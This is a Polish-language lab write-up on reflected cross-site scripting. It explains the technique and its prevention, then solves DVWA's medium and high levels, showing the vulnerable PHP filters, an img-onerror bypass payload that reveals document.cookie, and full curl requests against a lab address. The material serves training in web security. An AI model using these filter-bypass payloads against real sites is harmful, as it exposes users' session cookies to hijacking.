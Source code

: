 # Reflected XSS
## Opis techniki
<blockquote>
Reflected Cross-Site Scripting (XSS) to podatność, która pozwala atakującemu wstrzyknąć złośliwe skrypty do stron internetowych wyświetlanych przez innych użytkowników. Jest to osiągane poprzez dołączenie złośliwego skryptu jako części adresu URL, który jest przetwarzany przez serwer i wysyłany do przeglądarki użytkownika, która następnie wykonuje skrypt (jako część kodu strony).

Oto kilka kluczowych cech i zagrożeń związanych z Reflected XSS:
* Brak odpowiedniej walidacji danych wejściowych: W przypadku Reflected XSS, złośliwe skrypty są wstrzykiwane poprzez nieweryfikowane lub nieprawidłowo walidowane dane wejściowe od użytkownika. Jeżeli aplikacja nie waliduje odpowiednio tych danych, atakujący może wprowadzić złośliwe skrypty, które są następnie odbijane do użytkownika przez serwer.
* Zależność od interakcji użytkownika: Reflected XSS zwykle wymaga od użytkownika kliknięcia na złośliwy link lub wprowadzenia danych w niezaufanej stronie. To sprawia, że ataki są często celowane i mogą być wykorzystywane w celach phishingu czy kradzieży danych.
* Krótkotrwały charakter: W przeciwieństwie do Stored XSS, złośliwy skrypt w Reflected XSS nie jest przechowywany na serwerze. Zamiast tego, skrypt jest odbijany jednokrotnie do użytkownika. Oznacza to, że skutki ataku mogą być mniej trwałe, ale jednocześnie trudniejsze do wykrycia.
* Zagrożenie dla sekretów: Reflected XSS może prowadzić do kradzieży wrażliwych danych, takich jak ciasteczka sesji, co może umożliwić atakującemu przejęcie sesji użytkownika.
</blockquote>

## Zapobieganie
<blockquote>
W celu uniknięcia tego typu podatności, należy prawidłowo zastosować kodowanie danych wyjściowych lub użycie listy dozwolonych znaków. Można również wykorzystać mechanizmy zabezpieczające przeglądarki, takie jak Polityka Bezpieczeństwa Treści (Content Security Policy - CSP), które mogą ograniczyć możliwość wykonania złośliwych skryptów.
</blockquote>

## DVWA labs
- [DVWA Reflected XSS #2 - Medium](#dvwa-XSS-Reflected-1---medium)

- [DVWA Reflected XSS #3 - High](#dvwa-XSS-Reflected-2---high)

<br/>

## DVWA Reflected XSS #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie tagów <script>

#### Kod źródłowy strony `PHP`
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/xss_r` <br/>
URL: `http://10.10.236.56/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>'`

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'GET' -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E' -H $'Upgrade-Insecure-Requests: 1' \ -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=medium' \ $'http://10.10.236.56/vulnerabilities/xss_r/?name=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E'
```
  
#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Reflected_med.png "Po wykonaniu odpowiedniego zapytania następuje ujawnienie cookies użytkownika.")

Do obejścia zabezpieczenia wykorzystano tag <img> zamiast script. Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu w przeglądarce użytkownika i ujawnienie cookies.
<br/>
<br/>

## DVWA Reflected XSS #2 - Hard
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dokładniejsze filtrowanie ciągu znaków "<script"
* Filtry są teraz case-insensitive

#### Kod źródłowy strony `PHP`
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'GET' \ -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_r/' -H $'Upgrade-Insecure-Requests: 1' \ -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=high' \ $'http://10.10.236.56/vulnerabilities/xss_r/?name=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E'
```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Reflected_high.png "Po wykonaniu odpowiedniego zapytania następuje ujawnienie cookies użytkownika.")
<br/>

Do obejścia zabezpieczenia wykorzystano tag <img> zamiast script. Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu w przeglądarce użytkownika i ujawnienie cookies.
